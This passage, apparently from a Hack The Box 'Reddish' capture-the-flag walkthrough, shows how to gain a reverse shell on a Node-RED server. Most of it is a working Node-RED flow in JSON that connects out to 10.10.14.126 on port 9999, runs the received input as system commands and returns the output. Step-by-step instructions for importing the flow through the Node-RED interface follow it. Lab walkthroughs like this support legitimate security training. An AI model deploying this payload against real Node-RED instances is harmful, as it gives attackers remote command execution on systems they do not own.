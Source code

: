 ## Exploit of Node-RED
Copy the contents of [node-red reverse shell](https://raw.githubusercontent.com/valkyrix/Node-Red-Reverse-Shell/master/node-red-reverse-shell.json).

```json
[{"id":"7235b2e6.4cdb9c","type":"tab","label":"Flow 1"},{"id":"d03f1ac0.886c28","type":"tcp out","z":"7235b2e6.4cdb9c","host":"","port":"","beserver":"reply","base64":false,"end":false,"name":"","x":786,"y":350,"wires":[]},{"id":"c14a4b00.271d28","type":"tcp in","z":"7235b2e6.4cdb9c","name":"","server":"client","host":"10.10.14.126","port":"9999","datamode":"stream","datatype":"buffer","newline":"","topic":"","base64":false,"x":281,"y":337,"wires":[["4750d7cd.3c6e88"]]},{"id":"4750d7cd.3c6e88","type":"exec","z":"7235b2e6.4cdb9c","command":"","addpay":true,"append":"","useSpawn":"false","timer":"","oldrc":false,"name":"","x":517,"y":362.5,"wires":[["d03f1ac0.886c28"],["d03f1ac0.886c28"],["d03f1ac0.886c28"]]}]

```

On the node-red site click on the menu icon > import > clipboard.
![import clipboard](/img/htb/reddish/import_clipboard.png)

Paste the contents of the [node-red reverse shell](https://raw.githubusercontent.com/valkyrix/Node-Red-Reverse-Shell/master/node-red-reverse-shell.json), then click on import.

![import nodes](/img/htb/reddish/import_nodes.png)
